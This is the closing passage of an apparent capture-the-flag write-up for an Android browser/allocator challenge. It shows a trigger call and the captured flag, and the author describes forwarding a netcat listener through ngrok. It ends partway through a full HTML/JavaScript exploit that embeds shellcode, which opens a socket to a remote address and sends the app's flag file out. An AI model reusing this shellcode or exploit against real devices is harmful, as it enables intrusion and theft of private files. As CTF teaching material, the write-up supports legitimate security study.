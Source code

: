 trigger `talloc_hook`

```
bi0sctf.secure_talloc(key, 0x10, smarr);
```

### Victory?

The only problem that remained was that I did not have anywhere to host a nc listener to get the flag. I tried all possible ways and after a bucket load of disappointments and frustration, I finally used ngrok to tcp forward traffic to a local listener and hosted my exploit on this very blog. And finally, FLAG!!!!

![Victory!](/images/2024-03-03-bi0sctf-tallocator/victory.png)

```
bi0sctf{y0u_h4v3_t4ll0c3d_y0ur_w4y_thr0ugh_1281624072}
```

## Full Exploit
```
<html>
<Body>
<script>
const key = "50133tbd5mrt1769";
const shellcode = [0x48, 0x31, 0xC0, 0x48, 0x83, 0xC0, 0x29, 0x48, 0x31, 0xFF, 0x48, 0x89, 0xFA, 0x48, 0x83, 0xC7, 0x02, 0x48, 0x31, 0xF6, 0x48, 0x83, 0xC6, 0x01, 0x0F, 0x05, 0x48, 0x89, 0xC7, 0x48, 0x31, 0xC0, 0x50, 0x48, 0x83, 0xC0, 0x02, 0xC7, 0x44, 0x24, 0xFC, 0xC0, 0xA8, 0x01, 0x02, 0x66, 0xC7, 0x44, 0x24, 0xFA, 0x11, 0x5C, 0x66, 0x89, 0x44, 0x24, 0xF8, 0x48, 0x83, 0xEC, 0x08, 0x48, 0x83, 0xC0, 0x28, 0x48, 0x89, 0xE6, 0x48, 0x31, 0xD2, 0x48, 0x83, 0xC2, 0x10, 0x0F, 0x05, 0x57, 0x48, 0x31, 0xD2, 0x48, 0x89, 0xD6, 0x48, 0x8D, 0x3D, 0x19, 0x00, 0x00, 0x00, 0x6A, 0x02, 0x58, 0x0F, 0x05, 0x5F, 0x48, 0x89, 0xC6, 0x48, 0x31, 0xD2, 0x68, 0xE8, 0x03, 0x00, 0x00, 0x41, 0x5A, 0x6A, 0x28, 0x58, 0x0F, 0x05, 0xCC, 0x2F, 0x64, 0x61, 0x74, 0x61, 0x2F, 0x64, 0x61, 0x74, 0x61, 0x2F, 0x62, 0x69, 0x30, 0x73, 0x63, 0x74, 0x66, 0x2E, 0x61, 0x6E, 0x64, 0x72, 0x6F, 0x69, 0x64, 0x2E, 0x63, 0x68, 0x61, 0x6C, 0x6C, 0x65, 0x6E, 0x67, 0x65, 0x2F, 0x66, 0x6C, 0x61, 0x67, 0x00];

var arr = new Uint8Array(0x28);
for (var i = 0; i < 0x28; i++) {
```